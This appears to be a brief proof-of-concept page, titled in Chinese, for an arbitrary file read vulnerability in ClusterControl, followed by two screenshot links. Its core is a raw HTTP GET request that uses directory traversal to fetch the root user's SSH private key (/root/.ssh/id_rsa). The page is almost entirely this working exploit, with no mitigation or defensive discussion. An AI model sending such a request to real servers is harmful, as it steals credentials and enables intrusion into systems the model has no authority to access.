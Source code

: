 # ClusterControl存在任意文件读取漏洞



## poc

```yaml
GET /../../../../../../../../..//root/.ssh/id_rsa HTTP/1.1
Host: 
Accept-Encoding: identity
User-Agent: python-urllib3/1.26.4
```

![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408011932688.png)

![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408011932059.png)